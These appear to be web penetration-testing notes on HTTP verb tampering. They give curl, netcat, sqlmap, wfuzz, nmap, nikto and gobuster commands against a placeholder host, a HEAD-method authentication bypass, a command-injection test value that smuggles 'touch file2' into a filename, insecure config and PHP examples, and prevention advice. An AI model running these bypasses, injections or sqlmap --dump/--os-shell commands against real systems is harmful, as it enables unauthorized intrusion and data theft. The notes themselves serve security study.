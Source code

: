 ## **1. Identifying Protected Pages (Basic Authentication Bypass)**

### **Using curl to Check for Authentication Prompts**

```bash
curl -i http://target.com/admin/reset.php
curl -i http://target.com/admin/
```

### **Using Burp Suite to Intercept and Examine Requests**

- Use Burp Suite Proxy to capture HTTP requests.
    
- Inspect responses for authentication requirements.
    

## **2. Identifying Allowed HTTP Methods**

### **Using curl to Send OPTIONS Request**

```bash
curl -i -X OPTIONS http://target.com/admin/reset.php
```

### **Using Netcat to Check Allowed Methods**

```bash
nc -nv target.com 80
OPTIONS / HTTP/1.1
Host: target.com
```

## **3. Exploiting Authentication Bypass**

### **Using HEAD Method for Bypass**

```bash
curl -i -X HEAD http://target.com/admin/reset.php
```

- Manually change HTTP method in Burp Suite.
    

### **Bypassing Security Filters by Changing HTTP Method**

- Modify requests from `POST` to `GET` or `HEAD`.
    
- Use Burp Suite to modify request methods manually.
    

### **Testing Command Injection After Bypass**

```bash
curl -X GET "http://target.com/page?filename=file1; touch file2;"
```

## **4. Insecure Web Server Configurations**

### **Vulnerable Apache Configuration**

```xml
<Limit GET>
    Require valid-user
</Limit>
```

- Can be bypassed using `HEAD` or `OPTIONS` methods.
    

### **Vulnerable Tomcat Configuration**

```xml
<http-method>GET</http-method>
```

### **Vulnerable ASP.NET Configuration**

```xml
<allow verbs="GET" roles="admin">
```

## **5. Testing for SQL Injection with SQLmap**

```bash
sqlmap -u "http://target.com/page?code=test" --dbs # Enumerate databases
sqlmap -u "http://target.com/page?code=test" --dump # Dump database content
sqlmap -u "http://target.com/page?code=test" --os-shell # Get OS shell
```

## **6. Fuzzing HTTP Methods**

### **Using wfuzz**

```bash
wfuzz -c -z file,verbs.txt http://target.com/admin/FUZZ
```

## **7. Web Scanning and Reconnaissance**

### **Nmap (Port Scanning)**

```bash
nmap -sV -sC target.com
nmap -p 80,443,8080 target.com
```

### **Nikto (Web Server Scanning)**

```bash
nikto -h target.com
```

### **Gobuster (Directory Bruteforce)**

```bash
gobuster dir -u target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

## **8. Burp Suite Tools Overview**

- **Burp Intruder**: Used for fuzzing, brute-forcing, and other automated attacks.
    
- **Burp Repeater**: Used for manually crafting and replaying HTTP requests.
    
- **Burp Scanner**: Used for automated vulnerability scanning.
    

## **9. HTTP Verb Tampering Overview**

### **Common HTTP Verbs**

- **HEAD**: Retrieves headers only.
    
- **PUT**: Replaces a resource.
    
- **DELETE**: Removes a resource.
    
- **OPTIONS**: Lists allowed methods.
    
- **PATCH**: Partially modifies a resource.
    

### **Causes of Vulnerabilities**

- **Insecure Web Server Configurations**
    
- **Inconsistent Application Logic**
    
- **Weak Input Validation**
    

### **Example of Insecure Coding (PHP)**

```php
if(preg_match($pattern, $_POST["code"])) {
    $query = "SELECT * FROM ports WHERE port_code LIKE '%" . $_REQUEST["code"] . "%'";
}
```

- Filters `$_POST` but uses `$_REQUEST`, allowing SQL injection via `GET` requests.
    

## **10. Prevention Strategies**

- Apply **consistent authentication rules** across all HTTP methods.
    
- Use **strict input validation** and sanitization.
    
- Disable **unnecessary HTTP methods**.
    
- Configure web servers to **restrict HTTP methods properly**.
    
- Implement **Content Security Policies (CSPs)** and Web Application Firewalls (WAFs).
    

## **Key Takeaways**

- HTTP Verb Tampering can bypass authentication and security controls.
    
- Testing HTTP methods is crucial for security assessments.
    
- Web server configurations and application code must be securely implemented.
    
- Regular security audits and penetration testing help mitigate risks.